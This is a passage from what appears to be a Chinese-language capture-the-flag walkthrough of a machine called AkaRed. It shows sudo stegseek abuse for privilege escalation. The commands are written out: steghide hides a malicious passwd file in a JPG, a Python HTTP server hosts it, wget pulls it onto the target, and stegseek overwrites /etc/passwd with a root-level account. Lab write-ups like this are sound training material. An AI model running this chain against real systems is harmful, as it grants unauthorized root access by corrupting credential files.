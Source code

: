 3. **使用 `steghide` 嵌入数据**:

   ```bash
   ┌──(kali㉿kali)-[~/test]
   └─$ steghide embed -ef malicious_passwd -cf 1.jpg -p "123456" 
   # -ef: 指定要嵌入的文件
   # -cf: 指定载体文件
   # -p: 设置嵌入/提取密码
   embedding "malicious_passwd" in "1.jpg"... done
   ```

4. **启动 HTTP 服务器托管图片**:

   ```bash
   ┌──(kali㉿kali)-[~/test]
   └─$ python3 -m http.server 80 # 在 80 端口启动简单 HTTP 服务器                                                                    
   Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
   ```

### 4.4. 执行利用代码 (Target Machine)

1. **切换到可写目录并下载图片**: `/tmp` 通常是所有用户都可写的目录。

   ```bash
   welcome@AkaRed:/opt$ cd /tmp
   welcome@AkaRed:/tmp$ wget http://192.168.205.128/1.jpg
   # ... (下载输出) ...
   2025-04-11 08:29:34 (220 MB/s) - ‘1.jpg’ saved [396237/396237]
   ```

2. **创建密码文件 (`1`)**:

   ```bash
   welcome@AkaRed:/tmp$ echo '123456' > 1
   ```

3. **执行 `sudo stegseek` 覆盖 `/etc/passwd`**:

   ```bash
   welcome@AkaRed:/tmp$ sudo /usr/local/bin/stegseek 1.jpg 1 -xf /etc/passwd
   # <image_file>: 载体图片
   # <password_file>: 包含密码的字典文件
   # -xf /etc/passwd: 将提取的文件强制写入 /etc/passwd
   StegSeek 0.6 - https://github.com/RickdeJager/StegSeek
      
   [i] Found passphrase: "123456"
   [i] Original filename: "malicious_passwd".
   [i] Extracting to "/etc/passwd".
   the file "/etc/passwd" does already exist. overwrite ? (y/n) 
   y # 确认覆盖
   ```

4. **验证 `/etc/passwd` 内容**:

   ```bash
   welcome@AkaRed:/tmp$ cat /etc/passwd
   a:$1$user3$rAGRVf5p2jYTqtqOW5cPu/:0:0:root:/root:/bin/bash
   ```
